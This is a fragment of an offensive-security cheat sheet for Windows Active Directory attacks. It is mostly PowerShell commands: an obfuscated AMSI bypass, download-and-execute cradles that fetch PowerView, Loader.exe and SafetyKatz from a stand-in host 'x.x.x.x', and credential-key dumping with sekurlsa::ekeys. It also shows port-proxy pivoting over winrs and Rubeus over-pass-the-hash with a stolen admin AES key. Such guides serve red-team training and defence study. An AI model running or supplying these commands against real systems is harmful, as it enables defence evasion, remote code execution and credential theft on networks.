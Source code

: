 ```powershell
# Then use Sharpsploit DInvoke API to load the patched DLL into Memory

# ConfuserEX can be used to obfuscate Rubeus
```

- *Payload Delivery*
```powershell
# A tool called Netloader can be used to patch AMSI & EWT (Event Viewer)
c:\tools\Loader.exe -path http://x.x.x.x/SafetyKatz.exe

# If loader.exe gets caught it's possible to use AssemblyLoad.exe to load loader.exe from network
 c:\tools\AssemblyLoad.exe http://x.x.x.x/Loader.exe -path http://x.x.x.x/SafetyKatz.exe
```

- *Example of usage*
```powershell
# First, setup a HTTP server (apache or HFS) on x.x.x.x with useful binaries

# Download AMSI bypass string 
iex(iwr http://x.x.x.x/sbloggingbypass.txt -UseBasicParsing)

# Execute AMSI bypass
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )

# Download powerview
iex((New-Object Net.WebClient).DownloadString('http://x.x.x.x/PowervIew.ps1'))

# Connect to other machine and execute commands
winrs -r:server hostname;whoami

# Download Loader.exe
iwr http://x.x.x.x/Loader.exe -OutFile c:\users\Public\Loader.exe

#Copy Loader.exe to server (using c$)
echo F | xcopy c:\users\Public\Loader.exe \\server\c$\users\Public\Loader.exe

# Setup a proxy from server (port 8080) to HTTP Server x.x.x.x port 80
# This can be useful to execute the AssemblyLoad and Loader chain ($null is piped to end the winrs session)
$null | winrs -r:server "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=x.x.x.x"

# Then execute Loader connecting to localhost (which is forwarded), downaload safetykatz and execute sekurlsa::ekeys command
$null | winrs -r:server c:\users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit

# This expose an admin user AES key for over-pass-the-hash
Rubeus.exe asktgt /user:svcadmin /aes256:<AESKeys> /opsec /createnetonly:c:\windows\system32\cmd.exe /show /ptt
# Keep in mind that even if whoami shows a non elevated user, the session has svcadmin permissions (logontype=9)
# and can be used to remote execute command
winrs -r server cmd
```
